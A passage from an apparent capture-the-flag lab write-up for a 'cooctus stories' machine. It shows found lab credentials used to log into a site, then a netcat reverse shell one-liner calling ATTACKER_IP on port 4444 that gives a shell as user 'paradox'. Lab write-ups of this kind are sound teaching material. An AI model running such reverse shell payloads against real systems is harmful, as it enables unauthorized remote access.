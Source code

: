 This file contains a set of credentials:

> paradoxial.test : ShibaPretzel79

Fortunately for us, these credentials allowed us to log into the website:

![screenshot6](../assets/images/cooctus_stories/screenshot6.png)

We are brought to a page that allows us to test our exploits. Perhaps we can run a reverse shell command here?

I tried a bunch of reverse shell payloads, eventually finding one that worked:

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

![screenshot7](../assets/images/cooctus_stories/screenshot7.png)

We are logged in as the user **paradox**.

The **first flag** can be found in his home directory:

![screenshot8](../assets/images/cooctus_stories/screenshot8.png)

---
